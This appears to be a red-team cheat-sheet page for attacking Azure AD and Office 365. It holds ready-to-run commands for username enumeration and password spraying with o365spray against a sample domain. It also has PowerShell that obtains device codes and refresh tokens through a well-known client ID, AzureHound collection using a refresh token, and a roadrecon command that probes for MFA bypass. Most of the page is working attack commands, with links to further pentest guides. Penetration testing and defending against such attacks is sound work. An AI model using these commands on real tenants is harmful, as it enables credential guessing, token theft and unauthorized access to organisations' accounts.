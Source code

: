 # Azure AD

- [https://bhavsec.com/posts/intro-to-azure-pentesting/](https://bhavsec.com/posts/intro-to-azure-pentesting/)
- [https://sofblocks.github.io/azure-cloud-pentesting/](https://sofblocks.github.io/azure-cloud-pentesting/)
- [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- [[PDF] Dumping NTHashes from Azure AD (Dr Nestori Syynimaa, @DrAzureAD)](https://troopers.de/downloads/troopers23/TR23_DumpingNTHashesfromAzureAD.pdf)




## OSINT

- [https://aadinternals.com/osint/](https://aadinternals.com/osint/)




## Password Spray

Using [o365spray](https://github.com/0xZDH/o365spray) (random user agents [here](https://iplogger.org/ru/useragents/)):

```
$ pipx install -f "git+https://github.com/0xZDH/o365spray.git"
$ o365spray --validate -d megacorp.cloud
$ o365spray --enum -d megacorp.cloud -u snovvcrash
$ o365spray --enum -d megacorp.cloud -U names.txt
$ o365spray --spray -d megacorp.cloud -U names.txt -p 'Passw0rd!' --sleep 5 --rate 1 --useragents ua.txt
```




## Enumeration



### Tools


#### ROADrecon

- [https://github.com/dirkjanm/ROADtools](https://github.com/dirkjanm/ROADtools?tab=readme-ov-file#using-roadrecon)

```
$ roadrecon auth --device-code
$ roadrecon gather
$ roadrecon gui
```

#### AzureHound

- [https://github.com/BloodHoundAD/AzureHound](https://github.com/BloodHoundAD/AzureHound/releases/latest)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html#dealing-with-multi-factor-auth-and-conditional-access-policies)

Get the `device_code`:

```powershell
$body = @{
    "client_id" = "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource"  = "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers = @{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

Get the `refresh_token`:

```powershell
$body = @{
    "client_id"  = "1950a258-227b-4e31-a9cf-717495945fc2"
    "grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
    "code"       = $authResponse.device_code
}
$tokens = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$tokens
```

Collect data providing the `refresh_token`:

```
$ eget -qs linux/amd64 "BloodHoundAD/AzureHound" --to ~/tools/BloodHound
$ ~/tools/BloodHound/azurehound -r "<REFRESH_TOKEN>" list --tenant megacorp.cloud --json -o azure_megacorp.cloud.json
```




## MFA Bypass

- [https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass](https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass#office365-client-apps)
- [https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/](https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/)

Check if MFA is forcefully enabled via [well-known client GUIDs](https://github.com/dirkjanm/ROADtools/blob/6e7ac2d1ea5805d2e9a1a14fe1bf2bd05b45b891/roadlib/roadtools/roadlib/constants.py#L14):

```
$ proxy roadrecon auth -u snovvcrash@megacorp.cloud -p 'Passw0rd!' -r https://outlook.office.com/ -c 1b730954-1685-4b74-9bfd-dac224a7b894 --tokens-stdout
```
